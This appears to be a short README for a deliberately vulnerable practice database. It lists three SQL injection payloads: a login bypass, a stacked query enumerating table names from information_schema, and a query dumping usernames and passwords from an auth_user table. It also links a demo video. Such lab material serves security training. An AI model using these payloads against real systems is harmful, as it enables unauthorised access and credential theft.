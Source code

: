 #Vulnerable Database

Test sql injection statements to use against the vulnerable database are:
  
  ' or 1=1-- - 
  
  '; SELECT '1' as part_id,'2' as description,'3' as name,'4' as price, table_name as heavy_use  FROM information_schema.tables  WHERE table_schema='public' AND table_type='BASE TABLE' -- - 
  
  '; SELECT '1' as part_id,'2' as description,'3' as name, username as price, password as heavy_use  FROM auth_user  -- - 
  
  Video demonstrating exploit can be found at https://youtu.be/hXX6S-hVQQY
  
  
